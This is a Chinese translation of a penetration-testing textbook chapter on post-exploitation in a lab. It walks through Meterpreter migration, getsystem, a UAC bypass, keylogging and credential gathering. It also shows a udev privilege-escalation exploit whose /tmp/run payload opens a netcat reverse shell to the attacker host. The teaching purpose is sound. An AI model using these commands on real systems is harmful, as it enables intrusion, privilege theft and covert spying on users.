



## 第十三章. 后期利用

我们已经获得了目标系统的访问权限，所以渗透测试就结束了吗？我们可以告诉客户我们已经在他们的系统上获得了一个 shell。

那又怎么样呢？为什么客户会在乎？

在后期利用阶段，我们将对被利用系统的信息收集、权限提升和系统之间的移动进行检查。也许我们会发现能够访问存储在被利用系统上的敏感数据，或者我们可以通过网络访问其他系统，从而进一步获取公司数据。也有可能被利用的系统是某个域的一部分，我们可以利用它访问该域中的其他系统。这些只是后期利用阶段我们可能探索的几个方向。

后期利用无疑是获取客户安全态势清晰画像的最重要方式。例如，在第九章中，我提到了一次渗透测试，在其中我通过访问一台废弃的 Windows 2000 域控制器，获得了对该域的完全管理员控制。如果我没有使用后期利用技巧，我可能会得出结论认为这台 Windows 2000 系统没有存储敏感信息，并且它没有连接到其他系统的域中。我的渗透测试就不会那么成功，客户也无法全面了解他们的漏洞，特别是在密码策略方面。

本章将涵盖后期利用的基础知识。当你超越本书，提升作为渗透测试者的技能时，应该花大量时间在后期利用上。扎实的后期利用技能能够将优秀的渗透测试者与真正杰出的渗透测试者区分开来。

现在让我们来看看在 Metasploit 中一些后期利用的选项。

## Meterpreter

我们在第八章中讨论了 Meterpreter，Metasploit 的定制有效载荷。现在让我们深入探讨一些 Meterpreter 的功能。

我们将通过在每个目标系统上打开一个 Meterpreter 会话来开始后期利用。如示例 13-1 所示，我在 Windows XP 目标系统上打开了一个会话，使用的是 MS08-067 漏洞。在 Windows 7 目标系统上，我使用了像上一章中一样的木马可执行文件。在 Linux 目标系统上，我使用了在第八章中利用的 TikiWiki PHP 漏洞。你还可以通过 SSH 登录 Linux 目标，使用我们在第九章中破解的*georgia*密码（password）或我们在第八章中通过开放的 NFS 共享添加的 SSH 公钥。

示例 13-1. 在我们的目标上打开 Metasploit 会话

```
msf > **sessions -l**

Active sessions
===============

  Id  Type                   Information                            Connection
  --  ----                   -----------                            ----------
  1   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ BOOKXP           192.168.20.9:4444 ->
                                                                      192.168.20.10:1104
                                                                      (192.168.20.10)
  2   meterpreter x86/win32  Book-Win7\Georgia Weidman @ Book-Win7  192.168.20.9:2345 ->
                                                                      192.168.20.12:49264
                                                                      (192.168.20.12)
  3   meterpreter php/php    www-data (33) @ ubuntu                 192.168.20.9:4444 ->
                                                                      192.168.20.11:48308
                                                                      (192.168.20.11)
```

先按照这里所示与 Windows XP 会话进行交互。

```
msf post(enum_logged_on_users) > **sessions -i 1**
```

我们在书中已经看过一些 Meterpreter 命令。比如，在 第九章中，我们使用 `hashdump` 来直接访问本地密码哈希，在 离线密码攻击中也有所涉及。要查看可用的 Meterpreter 命令，请在 Meterpreter 控制台中输入 `help`。有关特定命令的更多详细信息，可以输入 `command -h`。

### 使用上传命令

在渗透测试中，可能没有什么比在一台 Windows 机器上没有 `wget` 和 `curl` 等工具来从 Web 服务器下载文件更让人烦恼了。在 第八章中，我们看到了如何使用 TFTP 绕过这个问题，但 Meterpreter 很容易帮我们解决这个问题。通过一个简单的命令 `help upload`，我们可以将文件上传到目标，如 示例 13-2 中所示。

示例 13-2. Meterpreter 帮助命令

```
meterpreter > **help upload**
Usage: upload [options] src1 src2 src3 ... destination

Uploads local files and directories to the remote machine.

OPTIONS:

    -h        Help banner.
    -r        Upload recursively.
```

该帮助信息告诉我们，可以使用 `upload` 将文件从我们的 Kali 系统复制到 Windows XP 目标。

例如，下面是如何上传 Netcat for Windows：

```
meterpreter > **upload /usr/share/windows-binaries/nc.exe C:\\**
[*] uploading  : /usr/share/windows-binaries/nc.exe -> C:\
[*] uploaded   : /usr/share/windows-binaries/nc.exe -> C:\\nc.exe
```

### 注意

请记住，在路径中的反斜杠字符需要使用第二个反斜杠进行转义。同时记得，如果在渗透测试中上传任何文件或以其他方式更改目标系统，记录下你的更改，以便在测试结束前可以撤销它们。你最不想做的事情就是让环境比你找到时更脆弱。

### getuid

另一个有用的 Meterpreter 命令是 `getuid`。此命令会告诉你运行 Meterpreter 的 *System* 用户的名称。通常，Meterpreter 以被利用进程或用户的权限运行。

例如，当我们利用 MS08-067 漏洞攻击 SMB 服务器时，我们是以 SMB 服务器的权限运行目标，具体来说，是以 Windows *System* 账户的权限运行，如下所示。

```
meterpreter > **getuid**
Server username: NT AUTHORITY\SYSTEM
```

在 Windows 7 目标机器上，我们通过社会工程学手段诱使用户运行一个已经植入木马的程序，该程序会连接回 Metasploit，因此 Meterpreter 作为用户 *Georgia Weidman* 运行。

### 其他 Meterpreter 命令

在继续之前，花点时间操作其他的 Meterpreter 命令。你会发现许多有用的命令，可以用于本地信息收集、远程控制，甚至间谍活动，如键盘记录和从 Meterpreter 会话中打开摄像头。

## Meterpreter 脚本

除了 Meterpreter 命令外，你还可以从 Meterpreter 控制台运行 Meterpreter 脚本。当前可用的脚本可以在 Kali 中的 */usr/share/metasploit-framework/scripts/meterpreter* 找到。这些脚本是用 Ruby 编写的，你可以编写自己的脚本并提交以便纳入框架中。要使用 Meterpreter 脚本，输入 `run` *`<script name>`*。使用 `-h` 标志可以查看脚本的帮助信息。

在 第十章 中利用 Internet Explorer 时，我们使用了 `AutoRunScript` 选项来自动运行 *migrate* 脚本，以便在浏览器崩溃之前生成一个新进程并迁移到其中。我们也可以直接在 Meterpreter 中运行这个脚本。例如，输入 **`run migrate -h`**，如 示例 13-3 所示，会显示 *migrate* Meterpreter 脚本的帮助信息。

示例 13-3. 迁移脚本帮助信息

```
meterpreter > **run migrate -h**

OPTIONS:

    -f        Launch a process and migrate into the new process
    -h        Help menu.
    -k        Kill original process.
    -n <opt>  Migrate into the first process with this executable name (explorer.exe)
    -p <opt>  PID to migrate to.
```

由于我们并不是为了在会话关闭之前抢先操作，我们有一些不同的选项可以选择迁移到哪个进程。我们可以通过使用 `-n` 选项根据进程名称进行迁移。例如，要迁移到 Meterpreter 在进程列表中遇到的第一个 *explorer.exe* 实例，可以使用 `-n explorer.exe`。

你还可以通过使用进程 ID（PID）和 `-p` 选项迁移到某个进程。使用 Meterpreter 的 `ps` 命令查看正在运行的进程列表，如 示例 13-4 所示。

示例 13-4. 运行进程列表

```
meterpreter > **ps**

Process List
============

 PID   PPID  Name              Arch  Session     User                    Path
 ---   ----  ----              ----  -------     ----                    ----
 0     0     [System Process]        4294967295
 4     0     System            x86   0           NT AUTHORITY\SYSTEM
--*snip*--
 1144  1712  explorer.exe      x86   0           BOOKXP\georgia          C:\WINDOWS\Explorer.EXE
--*snip*--
 1204  1100  wscntfy.exe       x86   0           BOOKXP\georgia
```

*Explorer.exe* 是一个可靠的选择。选择 PID `1144` 作为 *explorer.exe*，然后运行如 示例 13-5 所示的 Meterpreter *migrate* 脚本。

示例 13-5. 运行迁移脚本

```
meterpreter > **run migrate -p 1144**
[*] Migrating from 1100 to 1144...
[*] Migration completed successfully.
meterpreter > **getuid**
Server username: BOOKXP\georgia
```

Meterpreter 成功迁移到 *explorer.exe* 进程中。现在，如果 SMB 服务器恰好变得不稳定或崩溃，我们的 Meterpreter 会话是安全的。

如果你再次运行 `getuid` 命令，你会看到我们不再以 *System* 用户身份运行，而是以用户 *georgia* 身份运行。这是有道理的，因为该进程属于已登录用户 *georgia*。通过进入这个进程，我们有效地将权限降到了用户 *georgia* 的级别。

让我们继续以用户 *georgia* 登录到 XP 目标，并看看如何通过本地权限提升攻击将权限提升到 Windows 目标的 *System* 或 Linux 目标的 *root*。

## Metasploit 后期利用模块

到目前为止，我们已经使用了 Metasploit 模块进行信息收集、漏洞识别和利用。毫不奇怪，Metasploit 框架也有许多有用的模块用于后期利用阶段。Metasploit 的 *post* 目录包含用于本地信息收集、远程控制、权限提升等模块，覆盖多个平台。

例如，考虑模块 *post/windows/gather/enum_logged_on_users*。如 示例 13-6 所示，该模块将显示当前登录到目标系统的用户。将会话置于后台（使用 ctrl-Z 或 `background`）以返回主 Msfconsole 提示符。

示例 13-6. 运行 Metasploit 后期模块

```
msf > **use post/windows/gather/enum_logged_on_users**
msf post(enum_logged_on_users) > **show options**

Module options (post/windows/gather/enum_logged_on_users):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently logged on users
   RECENT   true             yes       Enumerate Recently logged on users
  ❶SESSION                   yes       The session to run this module on.
msf post(enum_logged_on_users) > **set SESSION 1**
SESSION => 1
msf post(enum_logged_on_users) > **exploit**

[*] Running against session 1

Current Logged Users
====================

 SID                                          User
 ---                                          ----
 S-1-5-21-299502267-308236825-682003330-1003  BOOKXP\georgia

[*] Results saved in: /root/.msf4/loot/20140324121217_default_192.168.20.10_host.users.activ
_791806.txt ❷

Recently Logged Users
=====================

 SID                                          Profile Path
 ---                                          ------------
 S-1-5-18                                     %systemroot%\system32\config\systemprofile
 S-1-5-19                                     %SystemDrive%\Documents and Settings\LocalService
 S-1-5-20                                     %SystemDrive%\Documents and Settings\NetworkService
 S-1-5-21-299502267-308236825-682003330-1003  %SystemDrive%\Documents and Settings\georgia
```

我们像使用所有 Metasploit 模块一样使用后期模块：我们设置相关选项，然后输入 **`exploit`** 来运行模块。然而，对于后期利用模块，除了设置 `RHOST` 或 `SRVHOST`，我们还需要告诉 Metasploit 我们要运行后期利用模块的会话 ID ❶。然后我们将模块应用于会话 1，即 Windows XP 目标。

模块返回数据，告诉我们用户 *georgia* 当前已登录。Metasploit 会自动将输出保存到文件 */root/.msf4/loot/20140324121217_default_192.168.20.10_host.users.activ_791806.txt* ❷。

## Railgun

Railgun 是一个 Meterpreter 的扩展，允许直接访问 Windows API。它可以在 Meterpreter 的后期利用模块中使用，也可以在 Meterpreter 会话中的 Ruby shell（`irb`）中使用。例如，我们可以通过直接访问 *shell32* Windows DLL 的 `IsUserAnAdmin` 函数来检查会话是否以管理员身份运行，如图所示。务必先使用 `sessions -i` *`<session id>`* 将会话带到前台。

```
meterpreter > **irb**
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
>> **client.railgun.shell32.IsUserAnAdmin**
=> {"GetLastError"=>0, "Error Message"=>"The operation completed successfully.", "return"=>true}
```

首先，我们使用命令 `irb` 进入 Ruby shell。请注意，`client` 变量保存了 Meterpreter 客户端。接下来，我们输入 **`client.railgun.shell32.IsUserAnAdmin`**，告诉 Ruby 解释器在当前 Meterpreter 会话中使用 Railgun 并访问 *shell32.dll* 的 `IsUserAdmin` 函数。（有关更多 Railgun 示例，请查看 Metasploit 后期模块，如 *windows/gather/reverse_lookup.rb* 和 *windows/manage/download_exec.rb*，这些也利用了该功能。）输入 **`exit`** 退出 Ruby 解释器并返回 Meterpreter。

## 本地权限提升

在接下来的部分中，我们将探讨 *本地权限提升* 的示例，该过程涉及在利用后运行漏洞利用来获得更多的系统控制权限。

就像网络软件和客户端软件一样，特权本地进程也可能存在可被利用的安全问题。你的某些攻击可能无法获得你期望的特权。通过网站获得命令执行、在没有管理员权限的情况下妥协用户账户，或利用有限权限的监听服务都可能导致系统访问，但你可能仍然只能作为一个受限用户工作。为了获得我们想要的特权，我们需要进一步利用其他漏洞。

### 在 Windows 上运行 `getsystem`

Meterpreter 的 `getsystem` 命令会自动尝试一系列已知的本地权限提升漏洞利用。该命令的选项如 示例 13-7 所示。

示例 13-7. `getsystem` 帮助

```
meterpreter > **getsystem -h**
Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

    -h Help Banner.
    -t <opt>  The technique to use. (Default to '0').
        0 : All techniques available
        1 : Service - Named Pipe Impersonation (In Memory/Admin)
        2 : Service - Named Pipe Impersonation (Dropper/Admin)
        3 : Service - Token Duplication (In Memory/Admin)
```

如图所示，运行没有参数的 `getsystem` 将运行一系列本地漏洞利用，直到某个成功或所有已知漏洞利用被耗尽。要运行特定的漏洞利用，请使用 `-t` 选项，后跟漏洞利用编号。

在这里，我们在 Windows XP 目标上运行没有参数的 `getsystem`。

```
meterpreter > **getsystem**
...got system (via technique 1).
meterpreter > **getuid**
Server username: NT AUTHORITY\SYSTEM
```

如你所见，Meterpreter 通过第一次尝试的漏洞成功获得了系统权限。通过一个命令，我们就能够将权限从*georgia*提升到*System*。

### Windows 本地升级模块

Metasploit 中的本地漏洞利用模块允许你在一个打开的会话中运行漏洞利用程序，以获得额外的访问权限。示例 13-8 中的本地特权升级模块*exploit/windows/local/ms11_080_afdjoinleaf*利用了`Afdjoinleaf`函数中的一个（现已修复的）漏洞，该函数属于*afd.sys* Windows 驱动程序。与后期利用模块类似，使用`SESSION`选项来指定应该在哪个打开的会话中运行漏洞利用程序。我们将在 Windows XP 会话中运行该模块。与后期利用模块不同，本地漏洞利用程序是漏洞利用程序，因此我们需要设置一个有效载荷。如果成功，我们的漏洞利用程序将打开一个具有系统权限的新会话。在你的 Windows XP Meterpreter 会话中，运行命令**`rev2self`**将权限降回到用户*georgia*，然后再使用这种替代的特权升级技术。

示例 13-8. Metasploit 本地漏洞利用

```
msf post(enum_logged_on_users) > **use exploit/windows/local/ms11_080_afdjoinleaf**
msf exploit(ms11_080_afdjoinleaf) > **show options**

Module options (exploit/windows/local/ms11_080_afdjoinleaf):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
--*snip*--
msf exploit(ms11_080_afdjoinleaf) > **set SESSION 1**
SESSION => 1
msf exploit(ms11_080_afdjoinleaf) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf exploit(ms11_080_afdjoinleaf) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf exploit(ms11_080_afdjoinleaf) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Running against Windows XP SP2 / SP3
--*snip*--
[*] Writing 290 bytes at address 0x00f70000
[*] Sending stage (751104 bytes) to 192.168.20.10
[*] Restoring the original token...
[*] Meterpreter session 4 opened (192.168.20.9:4444 -> 192.168.20.10:1108) at 2015-08-14 01:59:46 -0400

meterpreter >
```

在输入**`exploit`**后，Metasploit 将在我们的 Windows XP 会话中运行该漏洞利用程序。如果攻击成功，你应该会收到另一个 Meterpreter 会话。如果在这个新会话中运行`getuid`，你应该会看到你再次获得了系统权限。

### 注意

请记住，要成功进行本地特权升级攻击，必须依赖于某个漏洞，如缺失的补丁或安全配置错误。一个完全更新且已加固的系统不会受到 MS11-08 漏洞的影响，因为供应商在 2011 年发布了补丁。

### 绕过 Windows 上的 UAC

现在让我们看看如何在更加安全的 Windows 7 目标上升级权限，Windows 7 有额外的安全特性，包括*用户账户控制（UAC）*。运行在 Windows Vista 及更高版本上的应用程序仅能使用普通用户权限。如果应用程序需要使用管理员权限，必须由管理员用户批准提升权限。（你可能已经见过当应用程序想要进行更改时，UAC 会发出警告通知。）

因为我们通过让用户*Georgia Weidman*运行恶意二进制文件获得了这个会话，所以 Meterpreter 会话当前具有 Georgia Weidman 的权限。尝试在这个目标上使用`getsystem`，如示例 13-9 所示。

示例 13-9. `getsystem`在 Windows 7 上失败

```
msf exploit(ms11_080_afdjoinleaf) > **sessions -i 2**
[*] Starting interaction with 2...
meterpreter > **getuid**
Server username: Book-Win7\Georgia Weidman
meterpreter > **getsystem**
[-] priv_elevate_getsystem: Operation failed: Access is denied.
```

如你所见，针对该目标运行`getsystem`失败并给出了错误信息。也许该系统已经完全打了补丁并经过加固，以至于`getsystem`中的任何利用技术都无法奏效。

但事实证明，我们的 Windows 7 目标自安装以来没有进行任何补丁更新；UAC 正在阻止`getsystem`正常工作。

和任何计算机安全控制一样，研究人员已经开发了多种技术来绕过 UAC 控制。其中一种技术包含在 Metasploit 中的本地利用模块*windows/local/bypassuac*。背景化会话并在你的 Windows 7 会话上运行这个利用，如示例 13-10 所示。使用这个利用模块，设置`SESSION`选项，等等。

示例 13-10. 使用模块绕过 UAC 控制

```
msf exploit(ms11_080_afdjoinleaf) > **use exploit/windows/local/bypassuac**
msf exploit(bypassuac) > **show options**

Module options (exploit/windows/local/bypassuac):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module
msf exploit(bypassuac) > **set SESSION 2**
SESSION => 2
msf exploit(bypassuac) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] UAC is Enabled, checking level...
--*snip*--
[*] Uploaded the agent to the filesystem....
[*] Sending stage (751104 bytes) to 192.168.20.12
[*] Meterpreter session 5 opened (192.168.20.9:4444 -> 192.168.20.12:49265) at 2015-08-14 02:17:05 -0400
[-] Exploit failed: Rex::TimeoutError Operation timed out. ❶

meterpreter > **getuid**
Server username: Book-Win7\Georgia Weidman
```

该模块通过进程注入使用受信任的发布者证书绕过 UAC 控制。如你从`getui``d`命令的结果中看到的，尽管我们的新会话仍然以用户*Georgia Weidman*运行，但我们不再受到 UAC 的限制。如果攻击成功，你将再次看到一个新的会话。如果你在❶处看到这行信息，不必担心。只要新的 Meterpreter 会话打开，攻击就是成功的。

如下所示，绕过了 UAC 后，`getsystem`可以轻松获得系统权限。

```
meterpreter > **getsystem**
...got system (via technique 1).
```

### Linux 中的 Udev 权限提升

我们还没有尝试在 Linux 目标上进行权限提升。让我们换个方式，使用公开的利用代码，而不是 Metasploit，来执行本地权限提升攻击。

我们与 Linux 目标有两种交互方式：通过 SSH 和使用 TikiWiki 获得 Meterpreter shell。Linux 的 Meterpreter 比 Windows 的 Meterpreter 可用的命令少，但在这两种情况下，我们都使用`shell`命令从 Meterpreter 退出并进入常规命令 shell，如示例 13-11 所示。

示例 13-11. 在 Meterpreter 中进入 shell

```
meterpreter > **shell**
Process 13857 created.
Channel 0 created.
**whoami**
www-data
```

我们看到我们的 TikiWiki 利用为我们获得了一个作为*www-data*用户的会话，这是一个受限的 Web 服务器账户，但我们距离 root 权限还有很长的路要走。通过 SSH，我们还作为*georgia*用户获得了一个 Bash shell，如第八章所示，拥有比*www-data*更多的权限，但我们仍然不是渴望得到的 root。

#### 寻找漏洞

我们需要找到一个本地权限提升漏洞来进行利用。首先，我们需要一些关于本地系统的信息，比如已安装内核的版本和 Ubuntu 的版本。你可以通过命令`uname -a`查看 Linux 内核版本，通过命令`lsb_release -a`查看 Ubuntu 发布版本，如示例 13-12 所示。

示例 13-12. 收集本地信息

```
**uname -a**
Linux ubuntu 2.6.27-7-generic #1 SMP Fri Oct 24 06:42:44 UTC 2008 i686 GNU/Linux
**lsb_release -a**
Distributor ID: Ubuntu
Description: Ubuntu 8.10
Release: 8.10
Codename: intrepid
```

目标 Linux 系统运行的是 Linux 内核 2.6.27-2 和 Ubuntu 8.10，代号 *Intrepid*。这个 Linux 系统有些过时，且存在多个已知的权限提升问题。我们将重点关注 *udev* 中的问题，它是负责加载设备驱动程序或促进设备控制的软件的 Linux 内核设备管理器。

漏洞 CVE-2009-1185 描述了 udev 中的问题，udev 守护进程以 root 权限运行，但未检查加载驱动程序的请求是否来自内核。用户空间中的进程（例如用户启动的进程）可以向 udev 发送消息，并说服它以 root 权限运行代码。

根据 *SecurityFocus.com* 上关于这个漏洞的条目，Ubuntu 8.10 是受影响的平台，进一步调查表明 udev 版本 141 及更早版本存在此问题。我们可以通过命令 `udevadm --version` 检查目标系统上的 udev 版本，但我们不能以 *www-data* 权限运行此命令。相反，我们需要从 SSH shell 中运行该命令，如下所示。

```
georgia@ubuntu:~$ **udevadm --version**
124
```

我们目标系统上的 udev 版本是 124，低于 141，这告诉我们我们的 Linux 目标系统存在漏洞。

#### 寻找漏洞

Kali Linux 包含来自 *Exploitdb.com* 的本地公开漏洞代码库，路径为 */usr/share/exploitdb*，其中包含一个名为 `searchsploit` 的工具，我们可以用它来搜索有用的代码。例如，示例 13-13 显示了与 udev 相关的漏洞利用搜索结果。

示例 13-13. 搜索 Exploitdb 仓库

```
root@kali:~# **/usr/share/exploitdb/searchsploit udev**
 Description                                                           Path
---------------------------------------------------------------------- ----------------------
Linux Kernel 2.6 UDEV Local Privilege Escalation Exploit               /linux/local/8478.sh
Linux Kernel 2.6 UDEV < 141 Local Privilege Escalation Exploit         /linux/local/8572.c
Linux udev Netlink Local Privilege Escalation                          /linux/local/21848.rb
```

似乎有多个公开的漏洞利用代码可供使用。我们使用第二个漏洞利用，*/usr/share/exploitdb/platforms/linux/local/8572.c*。

### 注意

在运行公开漏洞代码针对目标之前，请务必确保完全理解其功能。此外，总是有可能公开的漏洞利用代码在目标系统上无法可靠运行。如果可能，搭建一个实验室机器，并在尝试在客户端目标上运行之前，先测试漏洞利用的质量。

这个漏洞利用的一个优点是它有详细的注释，并提供了使用信息。示例 13-14 显示了它的 C 代码摘录，其中包括使用细节。

示例 13-14. udev 漏洞利用使用信息

```
* Usage:
*   Pass the PID of the udevd netlink socket (listed in /proc/net/netlink,
*   usually is the udevd PID minus 1) as argv[1].
*   The exploit will execute /tmp/run as root so throw whatever payload you
*   want in there.
```

我们了解到需要将 udev netlink 套接字的 PID 作为参数传递给漏洞利用代码。使用信息告诉我们在 */proc/net/netlink* 中查找此值，通常是 udev 的 PID 减 1。我们还看到漏洞利用代码会以 root 权限运行它在文件 */tmp/run* 中找到的任何代码，因此我们需要将一些代码放在那里。

#### 在目标系统上复制并编译漏洞利用

首先，我们需要将漏洞代码复制到目标系统并进行编译，以便它能够运行。幸运的是，GCC C 编译器在大多数 Linux 发行版中是预安装的，因此你通常可以直接在目标上编译本地漏洞代码。要检查 GCC 是否已安装，可以输入**`gcc`**，如这里所示。

```
georgia@ubuntu:~$ **gcc**
gcc: no input files
```

如你所见，GCC 报告它没有收到任何输入，但这也告诉我们 GCC 已经安装好了。接下来是将我们的漏洞代码复制到 Linux 目标系统。Linux 的 `wget` 命令可以让我们通过命令行从 web 服务器下载文件，所以我们将 C 代码复制到 Kali Linux web 服务器，如这里所示。确保在 Kali 中运行 apache2 web 服务器。

```
root@kali:~# **cp /usr/share/exploitdb/platforms/linux/local/8572.c /var/www**
```

现在切换到你的 SSH shell，并使用 `wget` 下载文件，如示例 13-15 中所示。

示例 13-15。使用 `wget` 下载文件

```
georgia@ubuntu:~$ **wget http://192.168.20.9/8572.c**
--2015-08-14 14:30:51--  http://192.168.20.9/8572.c
Connecting to 10.0.1.24:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2768 (2.7K) [text/x-csrc]
Saving to: `8572.c'

100%[======================================>] 2,768       --.-K/s   in 0s

2015-08-14 14:30:52 (271 MB/s) - `8572.c' saved [2768/2768]
```

现在按照这里所示，使用 GCC 在 Linux 目标上编译漏洞代码。使用`-o`标志指定编译代码的输出文件名。

```
georgia@ubuntu:~$ **gcc -o exploit 8572.c**
```

现在来查找漏洞使用信息中提到的 udev netlink 套接字 PID（示例 13-14）作为参数。使用信息中指出我们需要的 PID 列在 */proc/net/netlink* 中。使用 `cat` 命令查看该文件，如示例 13-16 中所示。

示例 13-16。/proc/net/netlink 文件

```
georgia@ubuntu:~$ **cat /proc/net/netlink**
sk       Eth Pid     Groups   Rmem     Wmem     Dump     Locks
f7a90e00 0   5574    00000111 0        0        00000000 2
da714400 0   6476    00000001 0        0        00000000 2
da714c00 0   4200780 00000000 0        0        00000000 2
--*snip*--
f7842e00 15  2468    00000001 0        0        00000000 2
f75d5c00 16  0       00000000 0        0        00000000 2
f780f600 18  0       00000000 0        0        00000000 2
```

列出的 PID 不止一个，但我们知道我们需要的 PID 通常是 udev 守护进程的 PID 减去 1。通过 `ps aux` 命令查看 udev 进程，如这里所示。

```
georgia@ubuntu:~$ **ps aux | grep udev**
root      2469  0.0  0.0   2452   980 ?        S<s  02:27   0:00 /sbin/udevd --daemon
georgia   3751  0.0  0.0   3236   792 pts/1    S+   14:36   0:00 grep udev
```

udev 守护进程的 PID 是 2469。来自示例 13-16 的一个 PID 是 2468（即 udev 的 PID 减去 1）。根据漏洞的帮助信息，这是我们需要的值。这个值在 Ubuntu 目标系统重启后会发生变化，因此请确保在自己的实验室中运行这些命令，以找到正确的值。

#### 向 /tmp/run 文件中添加代码

我们需要做的最后一件事是一些代码，以便作为 root 在文件 */tmp/run* 中运行。幸运的是，Ubuntu 系统上默认也安装了 Netcat，因此我们可以创建一个简单的 Bash 脚本，连接回 Kali 系统上的监听器，正如第二章中所讨论的。以下是该脚本。

```
georgia@ubuntu:~$ **cat /tmp/run**
#!/bin/bash
nc 192.168.20.9 12345 -e /bin/bash
```

在运行我们的漏洞代码之前，我们需要在 Kali 系统上设置一个监听器，以捕获传入的 Netcat shell。

```
root@kali:~# **nc -lvp 12345**
listening on [any] 12345 ...
```

最后，我们准备运行我们编译的漏洞代码了。记得将之前找到的 udev netlink 套接字的 PID 作为参数传递。

```
georgia@ubuntu:~$ **./exploit 2468**
```

Linux 目标系统似乎没有任何反应，但如果你回到 Kali 上的 Netcat 监听器，我们已经建立了连接。`whoami`命令告诉我们现在我们拥有 root 权限，如示例 13-17 所示。

示例 13-17. 获取 root 权限

```
root@kali:~# **nc -lvp 12345**
listening on [any] 12345 ...
192.168.20.11: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.20.9] from (UNKNOWN) [192.168.20.11] 33191
**whoami**
root
```

我们已经成功地使用公开漏洞提升了权限。

## 本地信息收集

一旦我们获得了对系统的访问权限，就应该检查是否存在任何潜在的敏感信息，如存储明文密码或使用弱哈希算法的安装软件、专有数据或源代码、客户的信用卡信息，或者是 CEO 的电子邮件账户。这些都是可以在最终报告中呈现给客户的有用信息。此外，我们找到的任何信息可能有助于我们突破网络中其他系统的防线，从而获取更多的收益。

我们稍后会在本章中讨论如何从一个系统迁移到另一个系统，但现在让我们先看看几种在本地系统上查找信息的有趣方法。

### 查找文件

我们可以让 Meterpreter 搜索有趣的文件。例如，在示例 13-18 中，我告诉 Meterpreter 查找任何包含*password*的文件名。

示例 13-18. 使用 Meterpreter 查找文件

```
meterpreter > **search -f *password***
Found 8 results...
    c:\\WINDOWS\Help\password.chm (21891 bytes)
    c:\\xampp\passwords.txt (362 bytes)
    c:\\xampp\php\PEAR\Zend\Dojo\Form\Element\PasswordTextBox.php (1446 bytes)
    c:\\xampp\php\PEAR\Zend\Dojo\View\Helper\PasswordTextBox.php (1869 bytes)
    c:\\xampp\php\PEAR\Zend\Form\Element\Password.php (2383 bytes)
    c:\\xampp\php\PEAR\Zend\View\Helper\FormPassword.php (2942 bytes)
    c:\\xampp\phpMyAdmin\user_password.php (4622 bytes)
    c:\\xampp\phpMyAdmin\libraries\display_change_password.lib.php (3467 bytes)
```

### 键盘记录

另一种收集信息的方法是让登录的用户主动提供信息。Meterpreter 有一个键盘记录器，我们可以用它来监听按键。也许用户在我们 Meterpreter 会话活跃期间正在登录网站或网络上的其他系统。通过输入**`keyscan_start`**，在 Windows XP 的 Meterpreter 会话中启动键盘记录器，如图所示。

```
meterpreter > **keyscan_start**
Starting the keystroke sniffer...
```

### 注意

你只会在当前的上下文中捕获按键。在我的示例中，我使用的是原始的 Windows XP 会话，在该会话中我是*georgia*用户，正在使用*explorer.exe*进程，因此可以嗅探*georgia*的按键。另一个有趣的想法是迁移到 winlogon 进程，在那里你只会看到键入的登录信息——这无疑是有用的信息。

现在切换到 Windows XP，输入一些内容。在我的示例中，我按 CTRL-R 打开运行对话框。然后我输入`notepad.exe`启动记事本程序，并在记事本中输入`hi georgia`。

要查看键盘记录器记录的任何按键，请输入**`keyscan_dump`**，如图所示。如你所见，我输入的所有按键都已被记录。

```
meterpreter > **keyscan_dump**
Dumping captured keystrokes...
 <LWin> notepad.exe <Return> hi georgia <Return>
```

要停止键盘记录器，请在 Meterpreter 中输入**`keyscan_stop`**，如图所示。

```
meterpreter > **keyscan_stop**
Stopping the keystroke sniffer...
```

### 收集凭据

在第九章中，我们处理了来自 Windows、Linux 和 FileZilla FTP 服务器的密码哈希，但用户可能在本地系统上存储了其他凭证。Metasploit 有几个后置模块，用于收集特定软件的密码，位于 */usr/share/metasploit-framework/modules/post/windows/gather/credentials*。在我们的示例中，我们将查看从 WinSCP 中窃取保存的凭证，WinSCP 是一个 Windows 上的安全复制工具。

